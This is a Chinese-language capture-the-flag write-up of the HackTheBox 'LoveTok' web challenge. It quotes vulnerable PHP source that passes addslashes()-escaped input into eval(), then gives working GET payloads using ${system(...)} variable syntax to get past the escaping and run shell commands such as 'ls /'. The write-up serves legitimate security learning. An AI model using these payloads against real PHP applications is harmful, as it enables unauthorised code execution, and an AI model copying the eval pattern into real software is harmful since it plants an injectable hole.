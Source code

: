 ```yaml
---
title: HackTheBox LoveTok WriteUP
date: 2023-08-22 14:49:44
tags:
- HackTheBox
- Web
---
```


## 题目

> True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

![LoveTok](image.png)

![Web](image-1.png)

## 思路

题目有源码下载，理应是从源码中寻找漏洞了。
找来找去，只有`challenge/controllers/TimeController.php`中存在可控参数`$_GET['format']`：

``` php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

跟踪定位到`TimeModel`类，代码如下：

``` php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

很显然，要绕过`addslashes()`函数，利用`getTime()`中的`eval()`来RCE了。

## 解题

代码在`addslashes()`后没有对传入的参数做其他处理，不好闭合双引号。

但是如果使用动态变量的话，就不需要闭合双引号了。

> 在 PHP 中，{} 用于复杂的变量解析。当字符串中的变量名称与其他字符相邻并可能引起混淆时，可以使用这种语法来明确地表示变量名。而 ${} 是一种特殊的语法，它允许你通过一个字符串来动态地生成变量名。
——ChatGPT

Payload如下：

```
GET /?format=r${${system(ls)}} HTTP/1.1
```

![ls](image-2.png)

但是`addslashes()`会对空格进行处理，我们也并没有在当前目录下找到flag，所以利用HTTP参数传入要执行的命令，是个好主意：

```
GET /?format=r${${system($_GET[aa])}}&aa=ls%20/ HTTP/1.1
```

![ls /](image-3.png)

找到`flag`:

![flag](image-4.png)

## 参考资料

> [PHP复杂变量绕过addslashes()直接拿shell](https://www.jianshu.com/p/7c818ddc5731)